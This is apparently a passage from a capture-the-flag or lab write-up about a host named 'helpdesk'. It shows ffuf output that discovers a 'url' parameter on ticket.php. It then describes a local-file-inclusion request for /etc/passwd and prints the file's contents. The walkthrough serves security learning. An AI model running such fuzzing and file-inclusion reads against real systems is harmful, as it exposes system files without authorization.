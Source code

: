 ```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://helpdesk/ticket.php?FUZZ=id
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 24
________________________________________________

url                     [Status: 200, Size: 271, Words: 30, Lines: 5, Duration: 74ms]
:: Progress: [6453/6453] :: Job [1/1] :: 1307 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

As we can see the page expects a **url** as a parameter. This indicates that ticket.php is processing this parameter and could be vulnerable to further attacks (like LFI).


### Testing the parameter
After this interesting find I decided to test the parameter. I entered the following url: http://helpdesk/ticket.php?url=/etc/passwd and funny enough I got the content of the passwd file meaning that the test worked. 

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
```